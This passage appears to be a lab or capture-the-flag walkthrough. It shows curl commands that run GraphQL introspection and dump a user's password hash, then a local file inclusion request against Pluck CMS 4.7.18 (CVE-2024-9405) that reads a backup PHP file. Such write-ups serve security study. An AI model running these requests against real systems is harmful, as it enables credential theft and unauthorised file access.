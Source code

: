 ```bash
curl -s http://10.129.230.159:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq  -c .

{"data":{"__schema":{"queryType":{"name":"Query","fields":[{"name":"user","description":""}]}}}}
```

```bash
└─$ curl -s http://10.129.230.159:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { types { name } } }" }' | jq -c .

{"data":{"__schema":{"types":[{"name":"Query"},{"name":"User"},{"name":"String"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"Boolean"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}
```

```bash
└─$ curl -s http://10.129.230.159:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq .
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "username"
        },
        {
          "name": "password"
        }
      ]
    }
  }
}

```

```bash
└─$ curl -s http://10.129.230.159:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ user { username password } }" }' | jq .
{
  "data": {
    "user": {
      "username": "helpme@helpme.com",
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```


### Pluck CMS v.4.7.18 - 本地文件包含未经身份验证 （CVE-2024-9405)
https://m3n0sd0n4ld.github.io/patoHackventuras/cve-2024-9405
```
└─$ curl 'http://10.129.231.20/data/modules/albums/albums_getimage.php?image=admin_backup.php'
<?php
$ww = 'c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e';
?>146
```
